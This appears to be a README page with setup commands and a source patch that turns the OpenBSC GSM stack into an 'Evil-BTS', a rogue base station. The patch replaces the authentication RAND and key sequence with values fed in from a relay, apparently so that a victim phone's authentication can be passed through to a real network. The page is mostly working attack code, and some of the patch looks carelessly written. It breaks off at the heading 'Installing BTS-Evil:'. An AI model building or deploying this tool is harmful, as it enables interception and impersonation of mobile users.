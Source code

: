 ## Patch OpenBSC Evil-BTS:

```bash
git clone https://github.com/osmocom/openbsc
git checkout 3f457a3b79e2908664b40eab9ca8e70c44a54898
```
```patch
diff -ru openbsc/openbsc/src/libmsc/gsm_04_08.c bsc-2rfa/openbsc/src/libmsc/gsm_04_08.c
--- openbsc/openbsc/src/libmsc/gsm_04_08.c	2022-08-30 16:59:20.033455224 +0200
+++ bsc-2rfa/openbsc/src/libmsc/gsm_04_08.c	2022-08-30 15:51:17.243099474 +0200
@@ -70,7 +70,10 @@
 #include <osmocom/gsm/tlv.h>
 
 #include <assert.h>
+#include "server.h"
+#include "hex.h"
+#include "client.h"

 void *tall_locop_ctx;
 void *tall_authciphop_ctx;
 
@@ -908,6 +911,20 @@
 	struct msgb *msg = gsm48_msgb_alloc_name("GSM 04.08 AUTH REQ");
 	struct gsm48_hdr *gh = (struct gsm48_hdr *) msgb_put(msg, sizeof(*gh));
 	struct gsm48_auth_req *ar = (struct gsm48_auth_req *) msgb_put(msg, sizeof(*ar));
+        DEBUGP(DMM, "-> AUTH REQ (rand = %s)\n", osmo_hexdump(rand, 16));
+	
+
+
+	char *test;
+	test=catch_rand();
+	printf("test %s\n",test);
+	char *randy=strtok(test," -");
+	printf("rand %s\n",rand);
+	char *kandy_seq=strtok(NULL,"-");
+	printf("key_seq %s\n",kandy_seq);
+	char *randy_magnum = spaces(randy);
+        const unsigned char *randynator=hex2ascii(randy_magnum);
+        memcpy(rand,randynator,16);
 
 	DEBUGP(DMM, "-> AUTH REQ (rand = %s)\n", osmo_hexdump(rand, 16));
 	if (autn)
@@ -917,7 +934,7 @@
 	gh->proto_discr = GSM48_PDISC_MM;
 	gh->msg_type = GSM48_MT_MM_AUTH_REQ;
 
-	ar->key_seq = key_seq;
+	ar->key_seq = kandy_seq;
 
```

## Installing BTS-Evil:
